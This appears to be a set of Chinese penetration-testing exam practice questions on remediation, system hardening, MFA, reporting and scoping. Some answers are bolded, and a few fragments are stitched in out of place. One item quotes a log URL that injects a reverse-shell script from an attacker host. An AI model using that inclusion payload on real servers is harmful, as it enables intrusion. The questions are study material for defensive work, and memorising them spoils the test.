您刚刚结束对某客户的渗透测试。测试期间，您坐在街对面停车场的车内，使用 `Aircrack-ng` 成功访问了客户的无线网络。为解决此漏洞，您建议客户实施定向无线网络天线，并调整接入点的功率电平以防止信号外泄。这属于哪类解决方案？

1.  技术型
2.  人员型
3.  流程型
4.  可扩展型

## 55. 社会工程学攻击修复建议

您刚刚结束对某客户的渗透测试。测试期间，您利用社会工程学手段说服组织的应付账款职员向一个虚构银行账户发送了一大笔 ACH 付款。为解决此漏洞，您建议客户实施**职责分离**，要求两人必须共同签署所有支出。这属于哪类解决方案？

1.  技术型
2.  人员型
3.  流程型
4.  可扩展型

## 56. 钓鱼攻击修复建议

您刚刚结束对某客户的渗透测试。测试期间，您利用钓鱼攻击从多名员工处收集了认证凭据。为解决此漏洞，您建议客户为所有员工强制开展安全意识培训。这属于哪类解决方案？

1.  技术型
2.  人员型
3.  流程型
4.  可扩展型

## 57. 本地管理员密码统一漏洞修复

您刚刚结束对某客户的渗透测试。在调查结果中，您指出组织中所有 Windows 桌面系统的本地 `Administrator` 用户账户使用相同的密码。您可以推荐什么来修复此问题？

1.  加密密码。
2.  实施密码复杂度要求。
3.  实施入侵者锁定。
4.  **随机化本地管理员凭据。**

## 58. 降低管理复杂度的本地管理员密码方案

您刚刚结束对某客户的渗透测试。在调查结果中，您指出组织中所有 Windows 桌面系统的本地 `Administrator` 用户账户使用相同的密码。向客户报告时，客户表示知情且为刻意为之，以此降低管理复杂度。您能推荐什么方案在不增加管理复杂度的前提下修复该漏洞？

1.  随机化本地管理员凭据。
2.  **实施 LAPS（本地管理员密码解决方案）。**
3.  将所有本地 Windows 用户设为本地 `Administrators` 组成员。
4.  将所有 Windows 域用户设为 `Domain Administrators` 组成员。

## 59. 防止弱密码的组策略设置（多选）

您刚刚结束对某客户的渗透测试。在调查结果中，您报告称因用户使用 `password`、`aaa`、`1234` 等弱密码，导致多个用户的 Windows 账户被攻破。您可以推荐他们实施以下哪些域组策略设置来防止弱密码复杂度？（选择两项。）

1.  使用可逆加密存储密码。
2.  **密码必须符合复杂度要求。**
3.  **最短密码长度。**
4.  证书路径验证设置。
5.  证书服务客户端 - 自动注册。

## 60. 防止密码重复使用的组策略设置

以下哪项 Windows 组策略设置可用于防止用户反复重复使用同一密码？

1.  **强制密码历史记录**
2.  使用可逆加密存储密码
3.  最短密码长度
4.  密码必须符合复杂度要求

## 61. 密码最大使用期限设置

以下哪项 Windows 组策略设置决定了用户最长可保留同一密码多长时间，超过则必须更改为新密码？

1.  强制密码历史记录
2.  最短密码长度
3.  最短密码使用期限
4.  **最长密码使用期限**

## 62. 密码最短使用期限设置

以下哪项 Windows 组策略设置决定了用户必须保留同一密码多长时间，之后才允许更改为新密码？

1.  强制密码历史记录
2.  最短密码长度
3.  **最短密码使用期限**
4.  最长密码使用期限

## 63. Linux 密码过期策略命令

您刚刚结束对某客户的渗透测试。在调查结果中，您报告称用户可无限期保留同一密码，增加了被攻破的可能性。鉴于客户使用 Linux 桌面和服务器，您应推荐他们使用以下哪个 Linux 命令来修复此问题？

1.  **`chage`**
2.  `chmod`
3.  `chgroup`
4.  `chown`

## 64. 防止暴力破解的账户锁定策略

您刚刚结束对某客户的渗透测试。在调查结果中，您报告称针对 Windows 域用户账户的暴力破解密码攻击成功，因为没有任何机制阻止破解软件对给定用户反复尝试密码。您可以推荐客户实施以下哪项 Windows 域组策略设置来修复此问题？

1.  强制密码历史记录
2.  密码必须符合复杂度要求
3.  使用可逆加密存储密码
4.  **账户锁定阈值**

## 65. 账户锁定持续时间设置

以下哪项 Windows 组策略设置决定了如果因输入错误密码次数过多而导致账户锁定，该账户将保持锁定状态多长时间？

1.  最长密码使用期限
2.  **账户锁定持续时间**
3.  账户锁定阈值
4.  最短密码使用期限

## 66. 重置账户锁定计数器设置

以下哪项 Windows 组策略设置决定了失败登录尝试后必须经过多长时间，失败登录尝试计数器才会重置为 0？

1.  账户锁定持续时间
2.  账户锁定阈值
3.  **重置账户锁定计数器时间**
4.  使用可逆加密存储密码

## 67. Linux 临时账户自动锁定命令

您刚刚结束对某客户的渗透测试，该客户大量使用临时工和承包商。在调查结果中，您报告称临时和合同工账户在工作完成后经常未被停用或删除。鉴于客户使用 Linux 桌面和服务器，您应推荐他们使用以下哪个 Linux 命令在一定时间后自动锁定用户账户？

1.  **`chage`**
2.  `chmod`
3.  `chgroup`
4.  `chown`

## 68. 永不应启用的组策略设置

以下哪项 Windows 组策略设置永远不应启用？

1.  **使用可逆加密存储密码**
2.  密码必须符合复杂度要求
3.  最短密码长度
4.  证书路径验证设置
5.  证书服务客户端 - 自动注册

## 69. 明文存储密码的 Web 应用修复建议

渗透测试期间，您发现客户使用一款内部开发的 Web 应用，该应用在 MySQL 数据库中以明文形式存储用户密码。您应推荐什么措施？

1.  购买执行类似任务的商业应用。
2.  **重写应用，在密码保存到数据库前对其进行加密。**
3.  改用 PostgreSQL 数据库。
4.  改用云服务提供商的托管解决方案。

## 70. Linux 强制密码修改周期命令

您刚刚结束对某客户的渗透测试。在调查结果中，您报告称虽然用户接受过每 45 天修改一次密码的培训，但因缺乏强制机制，极少有人真正执行。鉴于客户使用 Linux 桌面和服务器，您应推荐他们使用以下哪个 Linux 命令在用户 45 天内未修改密码时自动锁定账户？

1.  **`chage`**
2.  `chmod`
3.  `chgroup`
4.  `chown`


# 认证与安全加固考题

## 基础命令

1. `chage`
2. `chmod`
3. `chgroup`
4. `chown`

## 密码安全与哈希

### 71. 哪个工具可用于从密码哈希还原原始明文密码？

1. `proxychains`
2. `John the Ripper`
3. 彩虹表
4. `TheHarvester`

### 72. 通过向哈希操作添加随机位来防止预计算攻击的常用方法是什么？

1. 加盐
2. 反转哈希
3. 使用 OTP
4. 实施多因素认证

### 73. 通过将待哈希值多次运行哈希函数来防止预计算攻击的常用方法是什么？

1. 加盐
2. 密钥拉伸
3. 对称加密
4. 非对称加密

## 多因素认证 (MFA)

### 74. 渗透测试报告建议实施 MFA，用户认证时可要求提供以下哪项？

1. PIN
2. 口令短语
3. 指纹扫描
4. 以上皆非。用户名和密码已构成 MFA。

### 75. MFA 中“知识因素”（你知道的）示例是？

1. PIN
2. 一次性密码 (OTP)
3. 生物特征扫描
4. RSA 令牌

### 76. MFA 中“固有因素”（你是谁）示例是？

1. 密码
2. 质询-响应问题
3. 视网膜扫描
4. 硬连接到组织内部 LAN

### 77. MFA 中“位置因素”（你在哪里）示例是？

1. 安全令牌生成器
2. 口令短语
3. 硬连接到组织内部 LAN
4. 声纹

### 78. MFA 中“位置因素”（你在哪里）的另一个示例是？

1. RFID 接近读卡器
2. USB 令牌生成器
3. 非连接型令牌生成器
4. 密码

### 79. 以下哪项是 MFA 的示例？

1. 用户名 + PIN
2. RFID 接近读卡器 + 硬件连接到 LAN
3. 生物特征扫描 + PIN
4. 密码 + 质询/响应问题

### 80. 以下哪项是 MFA 的示例？

1. 用户名 + 密码
2. 密码 + 安全令牌生成器
3. USB 令牌生成器 + 非连接型令牌生成器
4. 密码 + PIN

### 81. 以下哪项是双因素认证 (2FA) 的示例？

1. 用户名 + 密码
2. 用户名 + PIN
3. 用户名 + PIN + 面部识别扫描
4. PIN + 指纹扫描 + 安全令牌

### 82. 以下哪项是三因素认证 (3FA) 的示例？

1. 用户名 + 密码 + 安全令牌
2. 用户名 + PIN + 指纹扫描 + 一次性密码 (OTP)
3. 用户名 + PIN + 面部识别扫描
4. 密码 + PIN + 安全令牌

## Web 应用安全 - SQL 注入防护

### 83. 针对内部开发的 Web 应用存在 SQL 注入漏洞，建议的修复措施是什么？

1. 重写代码以清理用户输入。
2. 在网络传输前对所有数据进行哈希。
3. 加密数据库中静止的所有数据。
4. 替换为功能相似的商业应用。

### 84. 针对同一 SQL 注入漏洞，另一个建议的修复措施是什么？

1. 转义数据。
2. 为网络通信实施 SSL。
3. 要求用户认证时使用 2FA。
4. 对哈希加盐。

### 85. 哪种 SQL 注入防御涉及使用带有绑定变量的预编译 SQL 语句？

1. 清理用户输入
2. 转义数据
3. 参数化查询
4. 密钥拉伸

## 服务器加固

### 86. Linux Web 服务器运行过多服务，建议的修复措施是什么？

1. 从服务器卸载所有不必要的服务。
2. 在服务器基于主机的防火墙中关闭与不必要服务关联的端口。
3. 卸载 DNS 和 DHCP 服务。
4. 卸载电子邮件相关服务。

### 87. 作为 Active Directory 域控制器的 Windows 服务器，以下哪些服务**不是**必需的？（选择两项）

1. 组策略管理
2. `Hyper-V`
3. 角色管理工具
4. Active Directory 联合身份验证服务

### 88. Windows 系统加固用户账户的常用方法？（选择两项）

1. 使用组策略配置账户锁定。
2. 启用匿名 SID/名称转换。
3. 启用内置 Guest 用户账户。
4. 启用 SAM 账户和共享的匿名枚举。
5. 删除或禁用所有未使用的用户账户。

### 89. Windows 系统加固用户账户的其他常用方法？（选择两项）

1. 要求用户使用在线 Microsoft 账户认证。
2. 使用组策略强制执行密码复杂性要求。
3. 允许“Everyone”权限应用于匿名用户。
4. 使用组策略强制执行密码有效期要求。
5. 允许标准用户安装更新。

### 90. Windows 系统加固网络通信的常用方法？

1. 启用 TCP/IP 上的 NetBIOS。
2. 允许匿名访问共享文件夹。
3. 存储 LAN Manager 哈希值。
4. 将 LAN Manager 认证级别设置为允许 LM 和 NTLM。
5. 将网络访问限制为仅限经过身份验证的用户。

### 91. Windows 系统加固网络通信的防火墙策略？

1. 在 Windows 防火墙中关闭所有端口，然后仅打开已安装服务所需的端口。
2. 在 Windows 防火墙中打开所有端口，然后逐个关闭除已安装服务所需端口外的所有端口。
3. 启用 LMHosts 查找。
4. 仅在公用网络配置文件中启用 Windows 防火墙。

### 92. Windows 系统加固的常用方法？（选择两项）

1. 安装额外系统内存并禁用 Windows 分页文件。
2. 授予 Administrator 用户“作为操作系统一部分执行”权限。
3. 禁用不需要的服务。
4. 允许匿名访问注册表。
5. 禁用补丁可用性的自动通知。

### 93. Windows 系统加固的另一个常用方法？

1. 禁用交互式登录时的 `Ctrl+Alt+Del`。
2. 安装所有可用的 Windows 组件。
3. 如果已启用，禁用 `BitLocker`。
4. 禁用自动运行。

### 94. Linux 服务器系统加固的常用方法？

1. 启用并配置 `iptables`。
2. 在 inittab 中启用 Ctrl+Alt+Del。
3. 授予所有用户对 `/boot` 目录的读写访问权限。
4. 配置 IP 协议以响应 ICMP 请求。

### 95. 以下哪种方法常用于强化基于 Linux 的服务器系统？

1. 启用 Telnet 服务。
2. 启用安全外壳（`SSH`）服务。
3. 配置 IP 协议以响应网络广播。
4. 启用具有空密码的用户账户。

### 96. 你刚刚为一位客户完成了一次渗透测试。在你的发现中，你报告称一台 Linux 数据库服务器有大量不必要的开放服务，增加了其攻击面。在你的最终报告中，你建议客户分析系统并移除其角色不需要的任何应用程序或服务。你应该建议他们使用哪种工具来检查服务器上的监听网络端口？

1. `netstat`
2. `yum`
3. `chage`
4. `iptables`

### 97. 你刚刚为一位客户完成了一次渗透测试。在你的发现中，你报告称你在一台 Linux 文件服务器上发现了几个未分配密码的用户账户。在你的最终报告中，你建议客户分析系统并为所有用户账户分配密码。他们应该查看服务器上的哪个文件来完成此任务？

1. `/etc/passwd`
2. `/etc/shadow`
3. `/etc/group`
4. `/etc/gshadow`

### 98. 你刚刚为一位大量使用临时工和承包商的客户完成了一次渗透测试。在你的发现中，你报告称临时和合同工用户账户在工作完成后经常未被停用或移除，因为他们经常几个月后回来参与新项目。考虑到客户使用 Linux 桌面和服务器，你应该建议他们使用以下哪个 Linux 命令来手动锁定临时或合同工用户账户，直到工人返回新项目？

1. `lockusr`
2. `chmod`
3. `chage`
4. `passwd`

### 99. 你刚刚为一位客户完成了一次渗透测试。在你的发现中，你报告称一台 Linux 数据库服务器显示过去曾被攻陷的证据。攻击者试图通过手动修改本地日志文件来掩盖踪迹，但遗漏了一个揭示攻陷事实的关键条目。你应该建议客户做什么？

1. 将日志文件设为只读。
2. 仅授予 root 用户对日志文件的读写访问权限。
3. 重新配置系统以将日志条目发送到专用日志服务器。
4. 将日志文件设为隐藏文件。

### 100. 你刚刚为一位拥有许多远程站点的客户完成了一次渗透测试。远程站点的员工通常使用 FTP 客户端在其站点和总部服务器之间来回复制文件。在测试期间，你能够嗅探这些 FTP 会话并捕获敏感信息。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？

1. 使用 `FTPS` 进行文件传输。
2. 禁止站点之间的文件传输。
3. 使用 `rcp` 命令进行文件传输。
4. 使用闪存驱动器和快递服务在站点之间传输文件。

### 101. 你刚刚为一位客户完成了一次渗透测试。在测试期间，你发现一位 Linux 系统管理员使用 Telnet 远程访问 Linux 服务器。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？

1. 禁止远程服务器访问。
2. 使用 `SFTP` 进行远程服务器访问。
3. 使用 `rsh` 进行远程服务器访问。
4. 使用 `SSH` 进行远程服务器访问。

### 102. 你刚刚为一位客户完成了一次渗透测试。在测试期间，你发现一位 Linux 系统管理员使用 `rcp` 在 Linux 服务器之间复制文件。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？

1. 使用 `scp` 命令进行文件传输。
2. 禁止服务器之间的文件传输。
3. 使用 `rsh` 命令进行文件传输。
4. 使用 `ftp` 命令进行文件传输。

### 103. 你刚刚为一位客户完成了一次灰盒渗透测试。在测试期间，你能够使用默认的管理员用户名和密码访问该组织的无线网络控制器设备。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？

1. 通过使用 `SSH` 进行远程连接来消除明文密码的传输。
2. 更改控制器上的默认管理用户名和密码。
3. 在所有接入点上使用定向天线。
4. 在无线网络上实施 MAC 地址过滤。

### 104. 你刚刚为一位客户完成了一次黑盒渗透测试。该组织的无线网络使用预共享密钥。在测试期间，你能够从停车场使用运行 `Aircrack-ng` 的笔记本电脑访问该组织的无线网络。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？（选择两项。）

1. 实施 MAC 地址过滤。
2. 实施 `802.1x` 认证。
3. 升级到支持现代加密方法的新型 Wi-Fi 设备。
4. 更改接入点上的默认管理用户名和密码。
5. 重新配置 Wi-Fi 设备以使用 `WPA` 加密。

### 105. 你刚刚为一位客户完成了一次黑盒渗透测试。在测试期间，你能够从停车场使用运行 `Aircrack-ng` 的笔记本电脑访问该组织的无线网络。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？（选择两项。）

1. 在所有接入点上使用定向天线。
2. 重新配置 Wi-Fi 设备以使用 `WEP` 加密。
3. 升级到支持现代加密方法的新型 Wi-Fi 设备。
4. 在无线网络上禁用 `DHCP`。

### 106. 你刚刚为一位客户完成了一次渗透测试。在测试期间，你通过伪装成 IT 供应商的技术人员进入了服务器室。你能够将笔记本电脑插入该组织思科路由器的串行连接器并访问其配置。在你的最终报告中，你应该建议客户采取什么措施来修复此问题？（选择两项。）

1. 在有线网络上禁用 `DHCP`。
2. 在路由器上运行 `enable secret` 命令。
3. 实施审核供应商代表的程序。
4. 在路由器上实施 MAC 地址过滤。

### 107. 当你为一位客户进行渗透测试时，你希望确保测试后清理过程顺利进行。你应该怎么做来实现这一点？

1. 在测试过程中仔细记录你所做的一切。
2. 在关键系统中创建后门，以便稍后轻松访问它们。
3. 对所有系统和设备创建镜像，以便它们可以恢复到测试前的状态。
4. 擦除你的漏洞利用创建的任何日志条目。

### 108. 你正在渗透测试完成后进行测试后清理过程。你应该怎么做？（选择两项。）

1. 移除测试期间创建的任何 Shell 会话。
2. 对客户隐瞒你在测试期间所做的一切。
3. 记录你在清理期间所做的一切。
4. 隐瞒你在测试后清理期间所做的一切。

### 109. 你正在渗透测试完成后进行测试后清理过程。你应该怎么做？

1. 要求客户签署协议，同意不披露你在测试期间使用的技术。
2. 移除测试期间使用的任何测试人员创建的凭据。
3. 撰写一份评论，指出内部管理员在测试期间犯下的错误。
4. 向客户隐瞒你在测试期间所做的一切。

### 110. 你正在渗透测试完成后进行后续清理工作。你应该怎么做？

1. 移除测试期间安装的任何工具或实用程序。
2. 将所有管理凭据重置为其默认值。
3. 将所有防火墙重置为默认配置。
4. 使用默认设置重新安装所有网络服务。

### 111. 你在渗透测试完成后与客户会面。在会议期间，你向客户提供了与测试期间发现的问题相关的详细证据。这个过程叫什么？

1. 发现证明
2. 经验教训
3. 客户验收
4. 数据标准化

### 112. 你在渗透测试完成后与客户会面。会议结束时，你要求客户以书面形式同意你已根据最初与客户签署的合同履行了职责。这个过程叫什么？

1. 发现证明
2. 经验教训
3. 客户验收
4. 后续行动

### 113. 完成渗透测试几个月后，客户打电话让你回来重新测试他们的网络，以验证最初发现的问题是否已得到妥善修复。这个过程叫什么？

1. 发现证明
2. 经验教训
3. 后续行动
4. 数据标准化

### 114. 为客户完成渗透测试后，你与渗透测试团队会面以回顾经验教训。你在会议中应该做什么？（选择两项。）

1. 记录测试期间有效的技术漏洞利用。
2. 讨论客户所在地附近最好的用餐地点。
3. 识别测试期间无效的漏洞利用。
4. 回顾团队即将到来的假日庆祝计划。

### 115. 一份详细的渗透报告交给了一位安全分析师。渗透测试是针对目标组织的 DMZ 环境进行的。报告有一项发现，即通用漏洞评分系统 (CVSS) 的基础分为 1.0。利用此漏洞需要哪种难度级别？

1. 非常困难，因为外围系统通常位于防火墙之后
2. 有一定难度，因为利用它需要强大的处理能力
3. 微不足道，因为利用该发现只需很少的工作量
4. 不可能，因为外部主机已加固以防范攻击

### 116. 在渗透测试过程中，测试人员需要与客户沟通。以下哪种情况会导致这种沟通发生？（选择两项。）

1. 尝试测试后，系统变得不可用。
2. 系统显示先前存在未经授权访问的迹象。
3. 系统显示加固不完全。
4. 测试人员在系统上发现了可识别个人身份的数据。
5. 测试人员在超出范围的系统上发现了某些内容。

### 117. 渗透测试人员为客户执行了安全评估。报告列出了总共九个漏洞，其中四个被确定为严重。客户没有预算立即修复所有漏洞。鑑於這種情況，測試人員應建議客戶採取的最佳選擇是什麼？

1. 对严重漏洞应用简单的补偿控制以降低风险，然后重新确定修复优先级。
2. 找出可以最快修复的漏洞并优先处理它们。
3. 首先实施影响最小的严重漏洞修复，然后处理其他严重漏洞。
4. 首先修复最严重的漏洞，即使这意味着修复其他漏洞可能需要更长时间。

### 118. 渗透测试人员为客户执行了安全评估。观察到公共 Web 服务器上有多个高位端口处于监听状态。客户表示他们仅使用端口 443 用于某个应用程序。测试人员应向客户推荐什么？

1. 禁用不需要的服务。
2. 将端口 443 过滤为特定 IP 地址。
3. 实施 Web 应用程序防火墙。
4. 将应用程序迁移到另一个端口。

### 119. 如果渗透测试人员能够在文本框中输入 SQL 注入命令并访问数据库中存储的信息，给客户的最佳建议是什么以缓解该漏洞？

1. 实施输入规范化。
2. 安装基于主机的入侵检测。
3. 执行系统加固。
4. 随机化用于登录的凭据。

### 120. 渗透测试人员正在进行测试，在攻破单个工作站后，测试人员能够在域内横向移动，几乎没有障碍。报告中应向客户推荐哪些迁移策略？（选择三项。）

1. 应用额外的网络访问控制。
2. 所有登录均要求多因素身份验证。
3. 为每台计算机随机化本地管理员凭据。
4. 为本地管理员禁用远程登录。
5. 增加最小密码复杂度要求。
6. 将每台主机放入其自己的虚拟局域网 (VLAN) 中。
7. 在每台工作站上启用全盘加密。

### 121. 渗透测试人员正在编写一份报告，概述对运营的总体风险级别。测试人员应在报告的哪个部分包含此信息？

1. 附录
2. 执行摘要
3. 主体
4. 技术摘要

### 122. 在对客户核心服务器进行渗透测试期间，测试人员发现了一个严重漏洞。测试人员接下来应该怎么做？

1. 完成测试，汇总所有发现，然后提交给客户。
2. 立即通知客户发现的详细信息。
3. 在目标计算机上，禁用受影响服务的网络端口。
4. 让目标计算机脱机，使其无法被利用。

### 123. 一名安全分析师正在监控 Web 应用程序防火墙 (WAF) 日志，并发现针对以下 URL 发生了一次成功的攻击：`https://sample.com/index.php?Phone=http://iattackedyou.com/stuffhappens/revshell.php`。应采取什么补救措施以防止此类攻击再次发生？

1. 阻止 URL 重定向。
2. 对参数进行双重 URL 编码。
3. 从应用程序中停止外部调用。
4. 实施黑名单。


### 124. 通过网络钓鱼，渗透测试人员从 IT 部门的一名成员处获取了初始 VPN 用户域凭据。然后测试人员通过 VPN 获取哈希值，并使用字典攻击轻松破解了它们。测试人员应向客户推荐以下哪些补救措施？（选择三项。）

1.  建议增加密码复杂度要求。
2.  建议为远程访问实施双因素身份验证。
3.  建议安装入侵防御系统。
4.  建议安装安全信息事件监控解决方案。
5.  建议阻止 IT 部门成员以管理员身份交互式登录。
6.  建议要求所有员工参加安全意识培训。
7.  建议升级 VPN 解决方案使用的密码套件。

# 第 6 章

## 模拟考试 1

1.  你是一名渗透测试人员，你和一位同事正在讨论为什么在进行渗透测试时，保持所发现结果的机密性非常重要。为什么发现的结果应保密？

    1.  它们可协助攻击者攻破网络。
    2.  它们可能包含公司知识产权。
    3.  它们是包含特权信息的法律文件。
    4.  如果发现结果公开，可能会导致消费者不满。

2.  你是一名渗透测试人员，你正在为一位新客户即将进行的测试编写交战规则 (ROE)。你需要在 ROE 中包含哪些项目？（选择两项。）

    1.  测试将进行的时间线
    2.  对任何法律的审查，特别是管辖客户的法律
    3.  你之前测试过的类似公司列表
    4.  你客户的竞争对手列表
    5.  客户网络的详细拓扑图

3.  你是一名渗透测试人员，你正在为一位新客户即将进行的测试编写交战规则 (ROE)。客户要求进行白盒评估。你已经告知客户：

    *   客户在测试期间不能使用屏蔽或黑名单机制。
    *   客户必须向你提供内部网络访问权限。
    *   客户必须向你提供详细的网络拓扑图。
    *   客户必须向你提供认证凭据。
    *   测试期间不允许使用软件即服务 (SaaS) 服务提供商提供的应用程序。

### 125. 在完成对面向互联网应用程序的测试后，渗透测试人员注意到该应用程序仅使用基本身份验证。测试人员应向客户推荐的最佳补救策略是什么？

1.  启用 HTTP 严格传输安全 (HSTS)
2.  启用安全 Cookie 标志
3.  加密通信通道
4.  清理无效用户输入

### 126. 一旦完成对客户的测试，测试人员正在为高管摘要确定发现和建议的优先级。以下哪项考虑因素对客户最有益？

1.  补丁和其他补救措施的可用性
2.  利用已识别漏洞的难度级别
3.  客户组织的风险承受能力
4.  完成每个步骤所花费的时间

### 127. 组织 IT 部门的一名初级技术人员对企业 Web 应用程序运行了渗透测试。在测试期间，技术人员发现该应用程序可泄露一个包含所有用户帐户和密码信息的 SQL 表。技术人员应如何通知管理层？

1.  技术人员应使用此信息连接到 SQL 服务器，并更改一些非关键帐户的密码，以向管理层演示概念验证。
2.  技术人员应记录调查结果，编写包含建议和屏幕截图的高管摘要，并提交给管理层。
3.  技术人员应通知开发团队这一发现，并建议在 Web 应用程序的 SQL 查询字符串上强制实施输入验证。
4.  技术人员应要求管理层创建提案请求 (RFP)，以开始与专业渗透测试公司的正式合作。

### 128. 你是一名安全分析师，正在审查最近针对内部网服务执行的内部漏洞扫描结果。扫描报告显示存在一个严重漏洞。报告显示如下：

*   **标题：** Web 服务器远程命令执行漏洞
*   **等级：** 严重 (CVSS 10.0)
*   **威胁行为体：** Web 服务器的任何远程用户
*   **置信度：** 确定
*   **建议：** 应用供应商补丁

你首先应该做什么？

1.  应用风险等级并评估其对组织的影响。
2.  利用该服务器以确定扫描是否报告了误报。
3.  通知高级管理层有关该漏洞的情况。
4.  组织关键的带外补丁修复。

### 129. 你是一名渗透测试人员，在渗透测试后进行清理时，发现客户没有必要的数据擦除工具。随后将所需工具分发给了需要的技术人员。在什么阶段应该重新审视这个问题？

1.  在经验总结阶段
2.  在缓解阶段
3.  在准备阶段
4.  在报告阶段

### 130. 你正在与客户讨论多因素认证。客户请你举一个什么是多因素认证的例子。你会告诉客户什么符合多因素认证的要求？

1.  使用生物识别指纹和语音识别
2.  使用智能卡和 PIN 码
3.  使用视网膜扫描和语音识别
4.  使用用户名、PIN 码和员工 ID 号

### 131. 你是一名渗透测试人员，受客户委托测试多台 Web 服务器的安全性。你通过利用与 DNS、FTP、IMAP、POP、SMTP 和 Telnet 使用相关的漏洞，在多台服务器上获得了 root/管理员访问权限。关于如何更好地保护其 Web 服务器，你应向客户提出什么建议？

1.  他们应禁用任何不必要的服务。
2.  他们应增加应用程序事件日志记录。
3.  他们应使用蜜罐。
4.  他们应使用传输层安全性 (TLS)。

### 132. 你已进行渗透测试并正在审查结果。你注意到该组织在所有系统上使用相同的本地管理员密码。可以使用什么工具来帮助解决此问题？

1.  本地管理员密码解决方案 (LAPS)
2.  有限管理员密码协助 (LAPA)
3.  Nessus
4.  Metasploit

### 133. 你是一名安全分析师，刚刚完成了一次渗透测试。在编写高管摘要时，以下哪项是不合适的？

1.  所有发现和漏洞的描述。
2.  所有发现漏洞的风险声明。
3.  应使用通俗易懂的语言编写。
4.  包含与测试相关的所有技术细节。

### 134. 你是一名渗透测试人员，正在进行后续清理。后续清理阶段执行哪些活动？（选择三项。）

1.  修复所有漏洞
2.  移除使用的任何工具
3.  移除 Shell
4.  移除测试人员创建的凭据

### 135. 你和一位同事正在讨论一个组织实施电子邮件内容过滤以阻止看似来自内部来源但未经适当认证的入站消息的场景。该组织还可能过滤掉任何包含高风险关键字或似乎来自已知恶意来源的消息。这种常见的补救活动类别属于哪一类？

1.  度量
2.  人员
3.  流程
4.  技术

### 136. 你和一位同事正在讨论不同的多因素认证类别。一个例子可能是员工使用一个带有认证令牌的钥匙扣，该令牌生成登录时必须使用的一次性密码。这种场景属于哪个多因素认证类别？

1.  你是谁 (Something you are)
2.  你拥有什么 (Something you have)
3.  你知道什么 (Something you know)
4.  你需要什么 (Something you need)

# 渗透测试场景题

## 1. 在制定交战规则（ROE）时，你做错了什么？

1.  客户端应被允许使用任何必要手段进行自我防御。
2.  拥有关于内部网络的详细信息会破坏测试结果。
3.  所有网络资源都应接受测试，包括任何基于云的资源。
4.  无错误。ROE 已正确定义。

## 2. 作为渗透测试人员，你正在为新客户制定渗透测试条款。以下哪种是获取合法测试授权的适当方法？

1.  发送邮件询问高级管理层成员是否允许开始测试。
2.  打电话询问 IT 员工是否允许开始测试。
3.  要求 IT 员工签署文件授予你开始测试的权限。
4.  要求高级管理层成员签署文件授予你开始测试的权限。

## 3. 作为渗透测试人员，你正在为新客户的即将到来的测试制定交战规则（ROE）。客户要求进行白盒评估。这是一项内部测试，不涉及第三方。以下哪些资源将被视为在此测试场景中的范围内？（选择两项。）

1.  Active Directory 用户
2.  Google Docs
3.  Microsoft Azure Web 服务器
4.  Microsoft Office 365 云应用程序
5.  组策略中定义的密码策略

## 4. 作为渗透测试人员，你正在为新客户进行白盒评估。测试目标是查看能否访问存储在内部数据库服务器上的机密客户数据。你已向客户索要架构图。客户应向你提供哪些信息？（选择两项。）

1.  设施地图
2.  网络图
3.  简单对象访问协议（SOAP）文档
4.  Swagger 文档

## 5. 你和同事正在讨论消息传递协议。其中一种协议定义了 Web 应用程序之间如何交换结构化信息，并由 WSDL 文件创建。正在讨论的是哪种消息传递协议？

1.  简单对象访问协议（SOAP）
2.  Swagger
3.  Web 应用程序描述语言（WADL）
4.  XML 模式定义（XSD）

## 6. 作为渗透测试人员，你正准备为客户进行应用程序编程接口（API）测试。准备此类测试时，以下哪项最有利？

1.  Nikto
2.  Swagger
3.  Web 应用程序归档（WAR）
4.  Web 应用程序攻击与审计框架（W3AF）

## 7. 作为渗透测试人员，你正在为新客户确定外部黑盒渗透测试的范围。你创建了一个极其激进的漏洞扫描器。在之前的测试中，该扫描器导致客户网站瘫痪超过 40 分钟。但通过扫描，客户了解到多个漏洞并得以修复。在为当前客户运行此扫描器之前，你首先应该做什么？

1.  在即将到来的评估中不使用该漏洞扫描器。
2.  在即将到来的评估中使用该漏洞扫描器。
3.  通过进行影响分析，确定新客户的影响容忍度。
4.  修改漏洞扫描器使其不那么激进。

## 8. 作为渗透测试人员，你正在与同事讨论 CIA 三要素模型中的“机密性”一词。在 CIA 三要素模型背景下，哪项陈述最能描述“机密性”的含义？

1.  防止未经授权访问信息或系统
2.  防止未经授权修改信息或系统
3.  确保信息和系统的合法使用始终可行
4.  防止合法访问信息和系统

## 9. 作为渗透测试人员，你正在为新客户规划一次交付。开始测试前，以下哪些是最重要的知情事项？（选择两项。）

1.  架构图
2.  公司政策
3.  目标/目的
4.  报告存储时间
5.  影响容忍度

## 10. 作为渗透测试人员，你正在测试过程中，客户要求你添加更多地址。以下哪项定义了你可遵循的目标列表？

1.  最终用户许可协议
2.  主服务协议（MSA）
3.  交战规则（ROE）
4.  工作说明书（SOW）

## 11. 作为渗透测试人员，你准备为新客户进行评估。以下哪份文件准确定义了测试期间将进行的内容？

1.  主服务协议（MSA）
2.  保密协议（NDA）
3.  测试人员提交给客户的详细发票
4.  工作说明书（SOW）

## 12. 作为渗透测试人员，你准备为新客户运行测试。以下哪项陈述源自新客户的公司政策？

1.  公司系统必须使用 MD5 哈希算法存储密码。
2.  员工密码必须包含至少八个字符，其中一个为字母数字字符。
3.  可联系服务台执行密码重置的电话号码。
4.  访问公司资产时，员工必须使用强密码。

## 13. 作为渗透测试人员，你受邀测试一个将主机与其公钥关联的认证方法。该组织使用哪种认证技术？

1.  证书绑定
2.  自签名服务器认证
3.  SSL 握手
4.  X.509 绕过

## 14. 作为渗透测试人员，你受新客户雇佣进行渗透测试。客户希望你测试其专有设计文档。测试目标是绕过安全措施并未经授权访问这些文档。你将进行哪种类型的评估？

1.  基于合规性的评估
2.  基于目标的评估
3.  基于目的的评估
4.  红队评估

## 15. 作为渗透测试人员，客户要求你冒充一名最近被解雇的服务台技术人员。什么最能描述这种威胁行为者的能力？

1.  高级持续性威胁（APT）
2.  黑客活动家
3.  有组织犯罪
4.  脚本小子

## 16. 作为渗透测试人员，你听说一名攻击者对邻国的一家政府承包商发动了攻击。攻击目标是通过该承包商访问对方国家的政府网络基础设施。攻击者得到其本国政府的支持。此场景描述的是哪类威胁行为者？

1.  黑客活动家
2.  民族国家
3.  有组织犯罪
4.  脚本小子

